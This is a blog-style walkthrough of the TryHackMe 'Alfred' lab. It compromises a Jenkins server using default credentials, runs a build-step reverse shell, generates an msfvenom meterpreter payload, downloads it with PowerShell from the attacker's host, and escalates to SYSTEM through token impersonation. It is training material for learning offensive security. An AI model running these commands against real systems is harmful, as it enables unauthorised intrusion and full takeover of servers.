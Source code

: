 ```yaml
---
slug: alfred-walkthrough
title: TryHackMe - Alfred - Walkthrough
authors: bw
tags: [learning, alfred, tryhackme, walkthrough]
---
```


This is a walkthrough for the room: [Alfred][alfred] on [TryHackMe][thm]. Let’s get started!

# Initial Access
First question is asking about how many TCP ports are open, however it does note that the server will not respond to ping, so we need to run the `-Pn` option for our `nmap` scan.

![a1](/img/thm/alfred/a1.png)

We see that this is clearly a Microsoft server, and there is a website on port 80 and 8080. Let’s take a look!

![a2](/img/thm/alfred/a2.png)

Wow, poor Batman! We know we are looking for login information since the next question asks for it. So there has to be some sort of login page. Let’s try checking 8080.

![a3](/img/thm/alfred/a3.webp)

Bingo! Now we still need a login. Let’s try some default credentials. After looking up Jenkins default credentials: `admin:password` trying that doesn’t work. Let’s try `admin:admin`. That works!

**NOTE:** I got lucky here by guessing default creds, but you could brute force this with hydra if it was more difficult.

Next, the room tells us to find a feature of the system that allows us to run commands. From there we can get a reverse shell on our machine using the command they give us.

If we navigate into the already created project, we can explore some more. Eventually, we get to **Configure**. In here under **Build**, we can run commands on the local system.

Before we do this, we need to download the script the room gives us ([here][nishang]) to our local machine. And then setup our python server:

`python3 -m http.server 80`

Then open a new terminal tab and start a netcat listener:

`nc -nvlp 1234`

Now, let’s enter our commands we want the server to execute. (These are given to us)

![a4](/img/thm/alfred/a4.png)

Click **Apply**, **Save** then select **Build Now**. If you go to your netcat listener terminal, you should now have a shell!

![a5](/img/thm/alfred/a5.png)

Now that we are in, we can look for the user flag!

![a6](/img/thm/alfred/a6.png)

Alright! Next section.

# Switching Shells
First step is to create our payload. Let’s open a new terminal and put in the commands given:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<thm_vpn_ip> LPORT=1235 -f exe -o win_shell.exe
```
With the output, we get our next answer:

![a7](/img/thm/alfred/a7-1.webp)

Now we need to download the payload to the machine. Utilize the command given and run it in our shell on the victim machine.

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<thm_vpn_ip>:80/shell-name.exe','shell-name.exe')"`
**NOTE:** If you stopped your Python webserver earlier, you will need to start that again under the folder where you save the payload: python3 -m http.server 80

Now, once again we need to start a listener, but since this is a `meterpreter` shell, we will need to use metasploit. Open a new terminal:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 1235
run
```

Now that our listener is running, let’s start the payload by entering `Start-Process "shell-name.exe"` in the current shell on the victim machine.

You should now have a shell in metasploit!

# Privilege Escalation
Let’s follow along with the instructions. Type `shell` and then `whoami /priv`

Exit the local shell: `exit`, and run the following:

```bash
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
getuid
```
Just like the room says, we need to migrate to a process that is running as `NT AUTHORITY\SYSTEM`. Lets run `ps` and look for the `services.exe` process.

![a8](/img/thm/alfred/a8.png)

From here we can run the following command: `migrate 668`

There let’s get the root flag!

![a9](/img/thm/alfred/a9.png)

# Review
This was a good in-between room. It was sort of a walkthrough but also didn’t give you all the information similar to a CTF. It was an easy room, but I definitely enjoyed it! See ya next time!

# References
[Alfred][alfred] | [TryHackMe][thm] | [Nishang][nishang]

[alfred]: https://tryhackme.com/why-subscribe?roomCode=alfred
[thm]: https://tryhackme.com
[nishang]: https://github.com/samratashok/nishang